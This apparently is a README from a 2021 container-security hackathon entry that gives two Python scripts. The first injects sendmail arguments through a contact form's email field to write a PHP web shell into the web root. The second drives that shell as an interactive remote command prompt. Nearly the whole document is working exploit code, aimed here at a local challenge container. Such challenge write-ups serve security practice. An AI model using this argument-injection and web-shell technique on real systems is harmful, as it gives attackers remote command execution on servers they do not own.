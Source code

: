 [Video](https://youtu.be/j9RB7hpZVJs)

How do I run it?
---

1. Start Docker container.

2. Execute __backdoor_uploader.py__:

```python
#!/usr/bin/env python3

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 09.12.2021

import requests
from requests_toolbelt import MultipartEncoder

host = "127.0.0.1"
port = "8383"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/"
payload = "<PAYLOAD><?php system($_GET['c']); ?><PAYLOAD>" # inserting <PAYLOAD> tags to easily catching output

data = {'action': 'submit',
         'name': payload, # Inserting PHP payload
         'email': f'"SomeDayPWN\\\" -OQueueDirectory=/tmp -X/www/{backdoor} server\" @whocares.org', # ...and copy it into web directory  
         'message': '.'}

multenc = MultipartEncoder(fields=data, 
                           boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers = {"User-Agent": 'curl/7.74.0', 'Content-Type': multenc.content_type}

r = requests.post(target, data=multenc.to_string(), headers=headers)

```

3. (optional) Execute __interact.py__ for handy approach:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests

host = "127.0.0.1"
port = "8383"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/{backdoor}?c="

def send(cmd):
    r = requests.get(target+cmd)
    print(r.text.split("<PAYLOAD>")[1])

send("ls")

while (1):
    send(input("Command: "))

print("Exit.")
```